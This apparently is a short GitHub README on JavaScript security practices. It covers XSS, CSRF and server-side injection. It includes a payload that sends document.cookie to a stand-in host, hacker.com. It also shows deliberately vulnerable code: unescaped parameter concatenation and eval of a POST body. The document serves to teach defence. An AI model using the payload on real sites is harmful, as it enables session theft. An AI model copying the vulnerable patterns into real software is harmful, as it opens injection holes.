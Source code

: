 # Java-Script
Java Script Security Best Practices

1. Cross-Site Scripting (XSS)
This HTML code can be used by hacker for utilizing malicious data. This code can be used without validation or escaping.
It will allow transferring of victim’s session ID to hacker’s site and therefore it can be misused as hackers gain access to it.

(String) page += ”
<input name=’myaccountname’
type=’TEXT’ value='” +
request.getParameter(“FF”) + “‘>”;

The eve-dropper changes the ‘FF’ parameter in their browser to:
<script>document.location=
‘<a class="vglnk" href="http://www.hacker.com/" rel="nofollow"><span>http</span><span>://</span><span>www</span><span>.</span><span>hacker</span><span>.</span><span>com</span><span>/</span></a>
cgi-bin
/cookie.cgi?param=’
+document.cookie</script>’.

2. Cross-Site Request Forgery (CSRF)
This application will permit the user to send a state-changing request.
Thus, eve-dropper develops a request for enabling money transfer from a victim’s account to that of eve-dropper’s.

![1 2](https://user-images.githubusercontent.com/50174329/80175929-b1486100-8614-11ea-8e2e-bfeb789d9acd.PNG)

3. Server-Side Javascript Injection (SSJI)

var http = require('http');
http.createServer(function (request, response) {
  if (request.method === 'POST') {
    var data = '';
    request.addListener('data', function(chunk) { data += chunk; });
    request.addListener('end', function() {
      var bankData = eval("(" + data + ")");
      bankQuery(bankData.balance);
   });
  }
});

